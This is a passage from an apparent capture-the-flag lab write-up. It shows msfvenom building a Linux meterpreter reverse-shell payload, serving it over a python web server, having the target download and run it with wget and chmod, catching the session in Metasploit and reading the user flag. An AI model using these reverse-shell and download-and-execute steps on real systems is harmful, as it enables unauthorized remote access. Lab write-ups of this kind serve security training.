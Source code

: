 ~~~
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.0.54 LPORT=4444 -f elf > shell
~~~

Make the shell available via a python web server (`python3 -m http.server`) and force the target to download it via the following command: `wget http://10.9.0.54:8000/shell`.

Make the shell executable and run it by sending the following commands: `chmod +x shell && ./shell`

In Metasploit, enter the following commands:

~~~
msf> use exploit/multi/handler
msf> set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf> set LHOST 10.9.0.54
msf> set LPORT 4444
msf> run
~~~

## User flag

We now have a meterpreter:

~~~
meterpreter > pwd
/www/shell
meterpreter > cd /home 
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
42755/rwxr-xr-x  4096  dir   2020-07-08 00:29:00 +0200  evs
42755/rwxr-xr-x  4096  dir   2020-07-08 00:28:58 +0200  www

meterpreter > cd evs
meterpreter > ls
Listing: /home/evs
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  33    fil   2020-07-08 00:29:00 +0200  user.txt

meterpreter > cat user.txt
7e88bf11a579dc5ed66cc798cbe49f76
~~~

Answer: `7e88bf11a579dc5ed66cc798cbe49f76`


# Escalate your privileges and get the root Flag (root.txt)

## Meterpreter to shell
